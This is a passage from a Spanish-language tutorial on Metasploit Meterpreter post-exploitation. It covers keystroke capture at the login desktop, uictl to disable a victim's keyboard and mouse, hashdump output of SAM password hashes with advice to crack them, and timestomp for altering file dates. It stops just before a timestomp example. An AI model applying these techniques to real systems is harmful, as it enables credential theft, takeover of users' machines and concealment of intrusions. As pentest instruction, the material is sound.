 TIP: Una vez explicado lo anterior, una practica frecuente que utiliza un atacante cuando logra comprometer un sistema, es establecer después de un periodo corto de tiempo, el desktop asociado con el login de usuario y posteriormente iniciar el escaneo de teclas para dicho desktop, de esta forma es muy fácil capturar las credenciales del usuario que se esta logueando en el sistema.

uictl<Stdapi User Interface Commands>, hashdump<Priv Password database Commands>, timestomp<Priv Timestomp Commands>
el comando uictl permite habilitar/deshabilitar el ratón y el teclado de la maquina destino, de esta forma, se puede controlar las acciones que el usuario realiza.

meterpreter > uictl

Usage: uictl [enable/disable] [keyboard/mouse]

meterpreter > uictl disable keyboard

Disabling keyboard…

meterpreter > uictl enable keyboard

Enabling keyboard…

meterpreter > uictl disable mouse

Disabling mouse…

meterpreter > uictl enable mouse

Enabling mouse…

El comando hashdump permite obtener los usuarios y el hash de los passwords de la maquina remota en formato SAM, de esta forma se puede crakear la clave de un usuario determinado usando herramientas como john the ripper o ophcrack

```
meterpreter > hashdump

Administrator:500:asdfghjkll1404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

ASPNET:1004:f398e05bcb3llllllf92d55aff8ce62c:86ceb0fb2a9e29524943fed3ef434477:::

daniel:1007:f920b27cf8b06ac9alllllllb51404ee:c52abb1e14677d7ea228fcc1171ed7b7:::

Guest:501:aad3b435b51404eeaad3b4lllll404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

HelpAssistant:1000:4d6764bf7636541b9llllll97b8f8a9d:d266eba66369591255d597bc76155cd8:::

Owner:1003:cf6a21dcd4401f45f500944b531lllll5f631567587db2a3d87618c0660be3a3:::

postgres:1005:f554be491f92036e46cfff875cbe0lld:2b11a19bd88a25d3e2d07cb7cc362044:::

SUPPORT_388945a0#:1002:aad3b435b51404eelld3b435b51404ee:5376b4d52202b447093e4651b63d1572:::
```

Por otro lado con timestomp se pueden modificar los atributos relacionados con las fechas de creación y modificación de un fichero en la maquina remota.

Con la siguiente instrucción se puede cambiar la fecha de creación del fichero.
